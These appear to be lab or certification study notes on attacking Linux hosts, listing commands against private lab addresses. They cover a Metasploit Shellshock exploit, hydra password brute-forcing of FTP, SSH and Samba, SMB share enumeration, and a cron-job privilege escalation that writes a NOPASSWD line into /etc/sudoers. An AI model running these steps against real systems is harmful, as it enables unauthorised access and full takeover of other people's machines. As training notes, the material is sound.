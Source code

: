             - Exploiting Linux Vulnerabilities
                
                **Shellshock**
                
                - `nmap -sV 192.173.104.3`
                - Browse [http://192.173.104.3/gettime.cgi](http://192.173.104.3/gettime.cgi)
                - Vuln check - `nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.173.104.3`
                - `msfconsole`
                - `search shellshock use exploit/multi/http/apache_mod_cgi_bash_env_exec set RHOSTS 192.173.104.3 set TARGETURI /gettime.cgi exploit`
                
                **FTP**
                
                - `nmap -sV 192.209.45.3`
                - Bruteforce `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.209.45.3 -t 4 ftp`
                - `ftp 192.209.45.3`
                
                **SSH**
                
                - `nmap -sV 192.63.218.3`
                - Bruteforce `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.63.218.3 -t 4 ssh`
                - `ssh [sysadmin@192.63.218.3](<mailto:sysadmin@192.63.218.3>)`
                - `find / -name "flag”`
                - `cat /flag`
                
                **Samba**
                
                - `nmap -sV 192.34.128.3`
                - Bruteforce `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.34.128.3 smb`
                - `smbmap -H 192.34.128.3 -u admin -p password1`
                - `smbclient -L 192.34.128.3 -U admin`
                - `smbclient [//192.34.128.3/shawn](<https://192.34.128.3/shawn>) -U admin`
                - `smbclient [//192.34.128.3/nancy](<https://192.34.128.3/nancy>) -U admin`
                - `enum4linux -a 192.34.128.3`
                - `enum4linux -a -u admin -p password1 192.34.128.3`
                - get flag
            - Linux Privilege Escalation
                
                **Cron jobs**
                
                - `whoami groups student cat /etc/passwd crontab -l`
                - `cd /`
                - `grep -rnw /usr -e "/home/student/message"`
                - `grep -rnw /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message`
                - `ls -al /usr/local/share/copy.sh`
                - `printf '#!/bin/bash\\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
                - `cat /usr/local/share/copy.sh`
                - `echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers`
                - `sudo -l`
                - `sudo su`
                - Got root priviledges
                - get the flag
                